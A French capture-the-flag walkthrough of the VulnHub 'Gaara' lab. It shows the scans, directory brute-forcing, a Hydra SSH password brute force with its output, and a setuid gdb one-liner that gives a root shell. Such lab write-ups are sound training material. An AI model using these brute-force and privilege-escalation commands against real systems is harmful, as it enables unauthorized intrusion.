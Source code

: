 # Solution du CTF Gaara de VulnHub

Disons le, ce CTF [Gaara](https://vulnhub.com/entry/gaara-1,629/) était loin d'être le plus agréable ou le plus intéressant.

Il commence sur une série de soit disant indices qui génèrent de la confusion. On final on brute force un compte supposé avec la wordlist RockYou et on obtient un shell.

La suite a un goût de déjà vu. C'est parti !

```
Nmap scan report for 192.168.56.54
Host is up (0.000079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
```

J'ai brute-forcé les URLs du serveur web d'abord avec les wordlists `raft` de `fuzzdb` puis finalement avec la `directory-list-2.3-big.txt` de `DirBuster`. Cela m'a retourné la page `Cryoserver` qui contient trois références :

```
/Temari
/Kazekage
/iamGaara
```

Ces pages correspondent à un copier coller d'articles Wikipedia.

Le `imGaara` m'a laissé supposer qu'il y avait un compte `gaara` sur le système et n'ayant pas plus d'infos j'ai décidé de brute-forcer ce possible compte SSH.

J'ai d'abord eu recours à [CeWL is a Custom Word List Generator](https://github.com/digininja/cewl) pour générer une wordlist à partir des trois pages mais aucun mot de passe valide n'en est ressorti.

Finalement j'ai obtenu quelque chose avec RockYou :

```bash
$ ./hydra -l gaara -P rockyou.txt ssh://192.168.56.54
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-14 12:46:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.54:22/
[STATUS] 136.00 tries/min, 136 tries in 00:01h, 14344249 to do in 1757:53h, 12 active
[22][ssh] host: 192.168.56.54   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-14 12:48:5
```

Ce mot de passe `iloveyou2` permet l'accès au SSH. Une fois connecté on trouve deux fichiers :

```
-rw-r--r-- 1 gaara gaara   33 Dec 13  2020 flag.txt
-rw-r--r-- 1 gaara gaara   57 Dec 13  2020 Kazekage.txt
```

Le premier est le flag `5451d3eb27acb16c652277d30945ab1e` et le second contient un message :

> You can find Kazekage here....  
> 
> L3Vzci9sb2NhbC9nYW1lcw==

Le base64 nous indique d'aller jeter un oeil dans `/usr/local/games` où l'on trouve un fichier texte qui a l'air encodé via [Brainfuck](https://fr.wikipedia.org/wiki/Brainfuck) :

```
Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

On peut utiliser un décodeur en ligne qui nous donne le texte clair suivant :

> Did you really think you could find something that easily? Try Harder!

Devant cette impasse et en raison de l'absence d'entrées `sudo` je recherche les binaires setuid :

```bash
gaara@Gaara:~$ find / -user root -perm -u+s 2> /dev/null 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

Ce qui m'a plus surpris c'est la présence de Gimp :) On trouve bien une entrée correspondante sur [GTFObins](https://gtfobins.github.io/gtfobins/gimp/) mais toutes les techniques d'exploitation nécessite la présence d'un plugin pour l'exécution de code Python.

Sur le système on ne trouve que `script-fu` et ce dernier a un ensemble de commandes trop limitées. Au mieux il doit être possible d'exfiltrer des données en essayant de charger / sauver une image mais on risque de se cogner la tête sur la validation des formats.

L'entrée GTFObins pour GDB fonctionne bien, gdb supportant le Python depuis quelques années déjà : 

```bash
gaara@Gaara:~$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls
root.txt
# cat root.txt


 ██████╗  █████╗  █████╗ ██████╗  █████╗ 
██╔════╝ ██╔══██╗██╔══██╗██╔══██╗██╔══██╗
██║  ███╗███████║███████║██████╔╝███████║
██║   ██║██╔══██║██╔══██║██╔══██╗██╔══██║
╚██████╔╝██║  ██║██║  ██║██║  ██║██║  ██║
 ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝

8a763d61f71db8e7aa237055de928d86

Congrats You have Rooted Gaara.

Give the feedback on Twitter if you Root this : @0xJin
```

*Publié le 14 novembre 2022*
